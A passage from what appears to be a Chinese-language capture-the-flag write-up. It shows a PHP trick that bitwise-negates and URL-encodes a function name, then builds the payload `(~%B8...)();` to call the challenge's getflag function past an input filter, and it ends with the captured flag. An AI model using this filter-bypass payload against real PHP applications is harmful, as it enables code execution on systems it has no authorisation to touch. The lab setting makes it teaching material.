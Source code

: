 ![](/img/2019-09-11/img_10.png)
然后上面也给了getflag的函数我们，直接调用就可以了
```php
<?php
$a = urlencode(~'GetYourFlag');
echo $a;
//%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98
```
payload为`(~%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98)();`
![](/img/2019-09-11/img_11.png)
flag{3904c5df2e894ca02a21004feb21e617}